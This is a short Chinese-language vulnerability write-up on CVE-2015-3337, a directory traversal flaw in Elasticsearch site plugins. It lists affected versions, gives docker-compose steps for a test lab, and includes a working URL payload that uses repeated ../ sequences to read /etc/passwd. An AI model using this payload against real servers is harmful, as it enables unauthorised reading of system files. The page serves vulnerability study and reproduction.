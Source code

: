 （CVE-2015-3337）ElasticSearch 目录穿越漏洞
===========================================

一、漏洞简介
------------

在安装了具有"site"功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

二、漏洞影响
------------

影响版本：1.4.5以下/1.5.2以下

三、复现过程
------------

编译及运行测试环境

    docker-compose build
    docker-compose up -d

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://www.0-sec.org:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-3337)ElasticSearch目录穿越漏洞/media/rId24.png)

### head插件

head插件提供了elasticsearch的前端页面，访问
`http://www.0-sec.org:9200/_plugin/head/` 即可看到，不多说了。

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-3337/
